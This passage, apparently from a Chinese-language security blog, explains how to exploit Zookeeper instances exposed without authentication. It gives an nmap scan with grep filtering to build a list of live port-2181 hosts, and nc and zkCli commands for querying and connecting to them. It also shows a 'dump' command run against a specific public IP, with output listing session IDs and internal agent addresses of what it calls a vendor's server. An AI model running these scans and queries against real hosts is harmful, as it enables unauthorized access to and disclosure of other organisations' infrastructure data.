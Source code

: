 ![20170112170858.png](https://ooo.0o0.ooo/2017/01/12/587747ef7248b.png)

结果显示全球大约有3W+主机开放了2181端口，也就说全球大约有3W+的Zookeeper未授权访问漏洞！

**利用**

发现 Zookeeper

    nmap -sS -p2181 -oG zookeeper.gnmap 192.168.1.0/24  
    grep "Ports: 2181/open/tcp" zookeeper.gnmap | cut -f 2 -d ' ' > Live.txt



例如某厂商的Zookeeper未授权访问：

远程获取该服务器的环境

    echo envi | nc ip port

![db71d42d5231e4e7486deec4ea4467cbe793172b.jpg](https://ooo.0o0.ooo/2017/01/12/587749087c56c.jpg)

直接连接

    ./zkCli.sh -server ip:port

**命令运行示例：**

`dump`：列出未完成的会话和临时节点。

    $ echo dump |ncat 52.2.164.229 2181
    SessionTracker dump:
    Global Sessions(7):
    0x1053c5850800023   4000ms
    0x1053c5850800024   4000ms
    0x2000b1ecdeb0160   4000ms
    0x2000b1ecdeb0161   4000ms
    0x2000b1ecdeb0162   4000ms
    0x3055d0251540008   4000ms
    0x3055d0251540009   4000ms
    ephemeral nodes dump:
    Sessions with Ephemerals (5):
    0x1053c5850800024:
    /borg/locutus/agents/061e4b6/10.92.1.192:9257
    0x1053c5850800023:
    /borg/locutus/agents/061e4b6/10.92.1.118:9257
    0x3055d0251540008:
    /borg/locutus/agents/061e4b6/10.92.1.120:9257
    0x2000b1ecdeb0162:
    /borg/locutus/agents/061e4b6/10.92.1.87:9257
    0x3055d0251540009:
    /borg/locutus/agents/061e4b6/10.92.1.10:9257
    Connections dump:
    Connections Sets (2)/(7):
    Ncat: An established connection was aborted by the software in your host machine. .

`envi`：打印有关服务环境的详细信息。
